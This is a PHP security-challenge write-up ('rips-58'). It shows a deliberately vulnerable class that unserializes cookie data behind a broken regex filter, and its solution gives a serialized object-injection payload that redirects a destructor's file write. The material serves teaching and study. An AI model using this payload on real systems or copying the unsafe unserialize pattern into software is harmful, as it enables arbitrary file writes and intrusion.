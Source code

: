 ```yaml
---

title: rips-58
author: raxjs
tags: [php]

---
```


$DESCRIPTION

<!--more-->
{{< reference src="https://twitter.com/ripstech/status/1169997998924980224" >}}

# Code
{{< code language="php"  title="Challenge" expand="Show" collapse="Hide" isCollapsed="false" >}}
class Template {
    public $cacheFile = '/tmp/cachefile';
    public $template = '<div>Welcome back %s</div>';

    public function __construct($data = null) {
        $data = $this->loadData($data);
        $this->render($data);
    }

    public function loadData($data) {
        if(substr($data, 0, 2) !== 'O:'
           && !preg_match('/O:\d:\/', $data)) {
            return unserialize($data);
        }
        return [];
    }

    public function createCache($file = null, $tpl = null) {
        $file = $file ?? $this->cacheFile;
        $tpl= $tpl ?? $this->template;
        file_put_contents($file, $tpl);
    }

    public function render($data) {
        echo sprintf(
            $this->template,
            htmlspecialchars($data['name'])
        );
    }

    public function __destruct() {
        $this->createCache();
    }
}

new Template($_COOKIE['data']);

{{< /code >}}

# Solution
{{< code language="php" highlight="7,14,16,40" title="Solution" expand="Show" collapse="Hide" isCollapsed="true" >}}
class Template {
    public $cacheFile = '/tmp/cachefile';
    public $template = '<div>Welcome back %s</div>';

    public function __construct($data = null) {
		// 2) user input $data
        $data = $this->loadData($data);
        $this->render($data);
    }

    public function loadData($data) {
        if(substr($data, 0, 2) !== 'O:'
			// 3) this can be bypassed with ['name' => 'f00', 'obj' => new Template(...)]
           && !preg_match('/O:\d:\/', $data)) {
			// 4) user controlled data into unserialize
            return unserialize($data);
        }
        return [];
    }

    public function createCache($file = null, $tpl = null) {
        $file = $file ?? $this->cacheFile;
        $tpl= $tpl ?? $this->template;
        file_put_contents($file, $tpl);
    }

    public function render($data) {
        echo sprintf(
            $this->template,
            htmlspecialchars($data['name'])
        );
    }

    public function __destruct() {
        $this->createCache();
    }
}

// 1) user input from cookie
new Template($_COOKIE['data']);


// example:
$x = 'a:1:{s:4:"name";s:3:"f00";}';
//$o = ['name' => 'f00', 'obj' => new Template($x)];
//echo serialize($o);
$payload = 'a:2:{s:4:"name";s:3:"f00";s:3:"obj";O:8:"Template":2:{s:9:"cacheFile";s:15:"/tmp/cachefile2";s:8:"template";s:26:"<div>Welcome back %s</div>";}}';
//                                                                                                    ^
//                                                                                                    |
//                                                                                            change file name

var_dump(preg_match('/O:\d\/', 'a:2:{s:4:"name";s:3:"f00";s:3:"obj";O:8:"Template":2:{s:9:"cacheFile";s:15:"/tmp/cachefile2";s:8:"template";s:26:"<div>Welcome back %s</div>";}}'));
//                        ^
//                        |
// PHP Warning:  preg_match(): No ending delimiter '/' found in php shell code on line 1
// bool(false)

var_dump(preg_match('/O:\d/', 'a:2:{s:4:"name";s:3:"f00";s:3:"obj";O:8:"Template":2:{s:9:"cacheFile";s:15:"/tmp/cachefile2";s:8:"template";s:26:"<div>Welcome back %s</div>";}}'));
// int(1)

{{< /code >}}
